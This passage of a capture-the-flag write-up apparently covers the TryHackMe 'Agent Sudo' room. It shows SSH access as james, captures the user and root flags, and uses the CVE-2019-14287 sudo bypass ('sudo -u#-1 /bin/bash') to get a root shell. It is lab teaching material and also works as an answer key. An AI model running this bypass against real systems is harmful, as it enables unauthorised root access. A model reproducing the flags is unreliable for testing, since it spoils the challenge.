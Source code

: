 ``Question 10:``
Let login James account using ``SSH``

``ssh james@10.10.45.45`` 
```r
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
james@agent-sudo:~$ 
```
``Answer:`` b03d975e8c92a7c04146cfa7a5a313c7

``Question 11``: What is the incident of the photo called?

```r
Copy Alien_autosy.jpg to attacker machine using python3 server
wget http://10.10.45.45:8000/Alien_autospy.jpg
--2024-01-30 21:55:13--  http://10.10.45.45:8000/Alien_autospy.jpg
Connecting to 10.10.45.45:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42189 (41K) [image/jpeg]
Saving to: ‘Alien_autospy.jpg’

Alien_autospy.jpg                    100%[======================================================================>]  41.20K   229KB/s    in 0.2s    

2024-01-30 21:55:13 (229 KB/s) - ‘Alien_autospy.jpg’ saved [42189/42189]
```
Do a ``google reverse search`` and find the link that directs you to ``Foxnews``

``Answer:`` Roswell alien autopsy

``Sudo Vulnerability``: CVE-2019-14287
```r
# CVE-2019-14287 sudo Vulnerability Allows Bypass of User Restrictions

A new vulnerability was discovered earlier this week in the sudo package. Sudo is one of the most powerful and commonly used utilities installed on almost every UNIX and Linux-based operating system.

The sudo vulnerability [CVE-2019-14287](https://access.redhat.com/security/cve/cve-2019-14287) is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.
```
``Question: ``CVE number for the escalation:
``Answer: ``CVE-2019-14287

``Question``: What is the root flag?
```r
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 
```
``Answer``: b53a02f55b57d4439e3341834d70c062
